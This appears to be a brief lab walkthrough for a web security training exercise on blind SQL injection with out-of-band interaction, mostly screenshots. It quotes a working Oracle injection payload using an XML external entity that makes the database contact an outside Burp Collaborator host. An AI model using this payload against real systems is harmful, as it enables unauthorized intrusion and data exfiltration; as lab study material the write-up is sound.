 # Lab: Blind SQL injection with out-of-band interaction #

## Lab description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/a3f3db15-3239-477f-ab14-2767a392c8b5)

We have intercepted the request and we will modify the request to trigger outofbond interaction

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/9b4ef090-6abc-40ae-9ed2-f1910cb90cbb)

>  We will use this paylaod `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

 ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/99e9935e-821e-48d2-9361-a0fb515b9824)

> We get some info collaborator tab

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/bb1129c8-95ec-4ac8-9a86-1c43fb6841e8)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d97d8ff8-c238-48ff-90c3-2220d8fd538e)
